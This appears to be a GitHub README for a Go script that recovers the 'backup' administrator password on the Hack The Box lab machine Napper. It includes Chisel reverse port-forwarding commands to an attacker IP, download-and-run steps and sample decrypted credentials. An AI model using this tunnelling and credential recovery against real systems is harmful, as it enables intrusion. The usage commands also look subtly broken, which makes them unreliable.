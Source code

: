 ## About

A GO Lang script that will get you the password for the Administrator user `backup` on [Napper](https://app.hackthebox.com/machines/Napper).<br>

## Requirements

Your machine has to be linked to Napper with a reverse port forwarding on port 9200. Here's a way to do it using Chisel.
  - Run this on your linux machine:
```console
user@kali:~$ chisel server -p 9000 --reverse
user@kali:~$
```
  - Run this on Napper:
```console
C:\Users\ruben\Desktop> chisel.exe client <YOUR_IP>:9000 R:9200:127.0.0.1:9200
C:\Users\ruben\Desktop> 
```
**Change `<YOUR_IP>` with your `tun0` IP address.**<br>
> *You can also use an available port different than 9000 if you want.<br>
> `chisel.exe` is **NOT** installed by default on Napper. It is your job to get it on Napper before using this script.*

Obviously GO has to be installed on your linux machine (where the script will be executed). If you don't have it installed yet, visit [this link](https://go.dev/doc/install).<br>

## Usage

Firstly you download the script. After that you give the script the execution permission. Finally you run the script.
```console
user@kali:~$ wget https://github.com/0tonoon/Napper_Script/blob/main/Pass_script
user@kali:~$ sudo chmod +x Pass_script
user@kali:~$ go run Pass_script
user@kali:~$ 
```
If all went well, it will produce an output similar to this:
```console
Key: 6b871be7d935fc2a7d2a974b798e6c9b
IV: 87f47937c807cf2c6c98e01a11684ea7
Encrypted Data: 3c09b34edb32df9cb252ae6f7c84e8b61ddaf9ee88508f79c104f3d7ee61317ed38eb8cfb2173e16
Decrypted Data: qFrbskeXMiWlmnyqtlrwkqqHmcztbBmXUdfAlgvn
```
<hr>

`Decrypted Data` is the password for the `backup`. Now it's your turn to find a way to use it and finish your privesc.
